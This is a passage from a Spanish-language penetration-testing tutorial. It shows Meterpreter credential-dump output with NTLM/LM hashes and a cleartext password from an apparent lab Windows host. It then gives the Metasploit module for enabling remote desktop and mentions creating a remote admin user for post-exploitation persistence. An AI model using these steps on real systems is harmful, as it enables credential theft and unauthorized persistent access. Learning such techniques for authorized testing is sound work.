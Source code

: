 ```bash
msv credentials
===============

Username  Domain   LM                                NTLM                              SHA1
--------  ------   --                                ----                              ----
Dark      Dark-PC  e52cac67419a9a22ecb08369099ed302  7c4fe5eada682714a036e39378362bab  0d082c4b4f2aeafb67fd0ea568a997e9d3ebc0eb

wdigest credentials
===================

Username  Domain     Password
--------  ------     --------
(null)    (null)     (null)
DARK-PC$  WORKGROUP  (null)
Dark      Dark-PC    Password01!

tspkg credentials
=================

Username  Domain   Password
--------  ------   --------
Dark      Dark-PC  Password01!

kerberos credentials
====================

Username  Domain     Password
--------  ------     --------
(null)    (null)     (null)
Dark      Dark-PC    Password01!
dark-pc$  WORKGROUP  (null)
```

## Post explotación 

### Habilitar el escritorio remoto

Llegados a ser administradores del sistema podemos realizar multitud de acciones haciendo uso de meterpreter.

Entre muchas de estas opciones podemos encontrar habilitar el escritorio remoto.

Para ello debemos ejecutar un modulo disponible en metasploit:

```bash
msf6 > use post/windows/manage/enable_rdp
```
Antes de proceder es necesario que tengamos un usuario con remote desktop habilitado en el sistema o, ya que tenemos privilegios dentro del sistema podemos hacer uso de ese modulo de metasploit para crear un usuario remoto y además con privilegios de administrador.
